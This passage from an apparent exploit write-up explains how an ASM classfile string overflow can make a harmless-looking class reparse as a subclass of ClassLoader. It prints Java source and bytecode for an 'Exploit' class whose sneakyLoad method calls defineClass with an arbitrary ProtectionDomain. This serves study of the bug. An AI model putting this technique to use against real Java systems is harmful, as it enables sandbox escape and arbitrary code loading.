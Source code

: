 After that, it parses `this_class` (`0002`) followed by `super_class` (`0006`). In this case, the parsed superclass (6) points to `java/lang/ClassLoader`, rather than `java/lang/Object` like the original classfile did. We now have a classfile that appears harmless (inheriting from `Object`), but which turns evil (inheriting from `ClassLoader`) after the string overflow.

After that of course, the parser moves on to parsing `inferfaces_count` and `interfaces`, which fails due to garbage data, but hopefully you get the idea. In the actual exploit, we will need to carefully feed ASM enough constants to produce an entire valid classfile when parsed with the string overflow.

### Exploit writing time!

At long last, we're ready to craft the exploit classfile. We want something equivalent to this Java code after being processed by ASM and then reparsed by the JVM with the string overflow:

```java
public class Exploit extends ClassLoader {
    public Class sneakyLoad(String name, byte[] b, ProtectionDomain pd) {
        return this.defineClass(name, b, 0, b.length, pd);
    }
}
```

This corresponds to the following bytecode:

```
.class public Exploit
.super java/lang/ClassLoader

.method public sneakyLoad : (Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;
    .code stack 99 locals 99
        aload_0
        aload_1
        aload_2
        iconst_0
        aload_2
        arraylength
        aload_3
        invokevirtual Method Exploit defineClass (Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;
        areturn
    .end code
.end method

.method public <init> : ()V
    .code stack 99 locals 99
        aload_0
        invokespecial Method java/lang/ClassLoader <init> ()V
        return
    .end code
.end method
.end class
```
